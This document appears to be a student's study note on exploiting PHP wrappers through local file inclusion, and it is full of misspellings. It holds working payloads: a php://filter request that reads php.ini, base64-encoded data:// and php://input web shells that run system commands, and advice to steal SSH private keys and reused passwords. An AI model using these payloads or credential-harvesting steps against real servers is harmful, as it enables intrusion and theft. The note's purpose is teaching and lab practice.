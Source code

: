 # PHP Wrappers:
We can use many methods to execute commands, each of wich has a spcific use case, as they depend on the back-end language/framework and the vulnerable funtion's capabilities.
One ez and common method for ganing control over the back-end server is by enumerating user credentials SSH Keys, and then use those to teh back-end server though SSH
or any other remote session.
For example we may dinf the db pass in a file config.php whch may match a user's password in case they re-use the same pass or can check the .ssh directory in each user's home directory, and if the read privilege are not set
properly then we may be able to grab their private key [id_rsa] and use to SHH into the system.

- Wrapper can be used to include external data, PHP code. The data wrapper is only avaliable to use if the [allow_url_include] setting is enable in the PHP configuration.
- Checking the PHP configuration:
We can include the PHP configuration file found at [/etc/php/X.Y/apache2/php.ini] for apache or at [/etc/php/X.Y/fpm/php.ini]. We can start with the latest PHP version, and try early version of we couldn't locate the configuration file.
We will also use the base64 filer we used in prev section .ini files are similar to .php files and should be encoded to avoid breaking.

`curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"`

Once we have the base64-encode string, we can decode it and grep for allow_url_include to see its value:
```sh
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```
Is option is not enable by def, an is required for several other LFI attacks, like using the input wrapper or for any RFI attack, as we'll see next.

- Remote Code Execution:
With allow_url_include enable, we can proceded wothj our data wrapper attack. As mentioned earlier, the data wrapper can be used to include exeternal data, including PHP code. We can also pass it base64 encoded strings with [text/plain;base64] and it hat the ability
to decode them and execute the PHP code.
`http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id`

- Input:
Similar to data wrapper the input wrapper can be used to include external input an execute PHP code. The difference between it and the data wrapper os that we pass our input to the input wrapper as a POST request data. The vulnerable parameter must accpet POST request for
this earlier attack with the input wrapper we can send a POST request to teh vulnerable URL and add our web shell as POST data.
`curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid`

- Expect:
Finally we acan utilize the expect wrappe, which allow us to directly run commands through URL streams. Expect works very similar to teh web shell.
Expect is an external wrapper, so it needs to be manually installed and enabled on the back-end server, though some web apps reely on it for their core funtionality.
